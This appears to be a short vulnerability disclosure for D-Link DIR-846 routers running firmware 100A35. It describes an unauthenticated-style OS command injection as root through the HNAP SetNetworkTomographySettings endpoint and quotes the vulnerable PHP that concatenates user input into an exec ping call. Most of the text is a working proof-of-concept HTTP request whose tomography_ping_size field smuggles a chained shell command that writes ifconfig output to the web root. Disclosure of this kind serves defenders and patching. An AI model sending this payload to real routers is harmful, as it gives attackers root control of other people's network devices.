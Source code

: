# DIR-846 100A35

D-Link DIR-846 devices with firmware 100A35 allow remote attackers to execute arbitrary OS commands as root by sending a request for SetNetworkTomographySettings with shell metacharacters to /www/HNAP1/control/SetNetworkTomographySettings.php. 

 Vulnerability code 

```
    public function actionIndex()
    {
        $result['SetNetworkTomographySettingsResult'] = "FAIL";
        $option = $this->act_val;

        $ping_number_range = array("options" => array("min_range" => 1, "max_range" => 50));
        $ping_size_range = array("options" => array("min_range" => 4, "max_range" => 1472));

        if (!filter_var($option['tomography_ping_number'], FILTER_VALIDATE_INT, $ping_number_range)) {  //校验ping次数范围
            $result["message"] = "ping的次数不合法";
        } elseif (!filter_var($option['tomography_ping_size'], FILTER_VALIDATE_INT, $ping_size_range)) {  //校验ping包大小范围
            $result["message"] = "ping包大小不合法";
        } elseif (!(filter_var($option['tomography_ping_address'], FILTER_VALIDATE_IP)  //校验是否为合法IP或域名
            || check_domain($option['tomography_ping_address']))) {
            $result["message"] = "不是合法的IP或域名";
        } else {
            exec("ping -c " . $option['tomography_ping_number'] . " -s " . $option['tomography_ping_size'] . " '" . $option['tomography_ping_address'] . "' > /tmp/ping.result");
            file_put_contents("/etc/.SetNetworkTomography", json_encode($option));
            $result['SetNetworkTomographySettingsResult'] = "OK";
        }
        $this->api_response(__CLASS__, $result);
    }
```

 We can execute OS commands by constructing tomography_ping_number, tomography_ping_size or tomography_ping_address variables. 

POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: 2FB5B79A97FFF1786E87095E1782F732 1573608228175
Referer: http://192.168.0.1/Diagnosis.html
Content-Length: 227
Cookie: PHPSESSID=7017cd87a498be58666d07002a6311a8; uid=EZYpFZtE; PrivateKey=287CC82F6F640A299531BB86B455A511
Connection: close

{"SetNetworkTomographySettings":{"tomography_ping_address":"192.168.0.2","tomography_ping_number":"2","tomography_ping_size":"4 127.0.0.1&&ifconfig>/www/b.txt&&ping -c 1 ","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

